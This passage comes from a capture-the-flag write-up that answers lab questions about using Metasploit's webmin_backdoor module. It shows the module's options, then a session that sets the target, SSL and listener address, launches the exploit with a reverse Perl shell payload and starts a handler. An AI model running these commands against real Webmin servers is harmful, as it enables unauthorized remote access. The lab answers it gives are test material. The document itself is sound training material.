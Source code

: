 ~~~
~~~

## #4.3 - Now that we've selected our exploit, set the options provided appropriately. Beyond RHOSTS and LHOST, what is the third option we must set to 'True'?

~~~
msf5 exploit(linux/http/webmin_backdoor) > show options

Module options (exploit/linux/http/webmin_backdoor):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      10000            yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path to Webmin
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Unix In-Memory)
~~~

Answer: `SSL`

## #4.4 - Run the exploit. What is the user flag?

*Hint :user.txt can typically be found in the home directory of our afflicted user*

~~~
msf5 exploit(linux/http/webmin_backdoor) > set rhost 10.10.86.158
rhost => 10.10.86.158
msf5 exploit(linux/http/webmin_backdoor) > set ssl true
[!] Changing the SSL option's value may require changing RPORT!
ssl => true
msf5 exploit(linux/http/webmin_backdoor) > set rport 10000
rport => 10000
msf5 exploit(linux/http/webmin_backdoor) > set lhost 10.9.0.54
lhost => 10.9.0.54
msf5 exploit(linux/http/webmin_backdoor) > exploit 

[*] Started reverse TCP handler on 10.9.0.54:4444 
[*] Configuring Automatic (Unix In-Memory) target
~~~
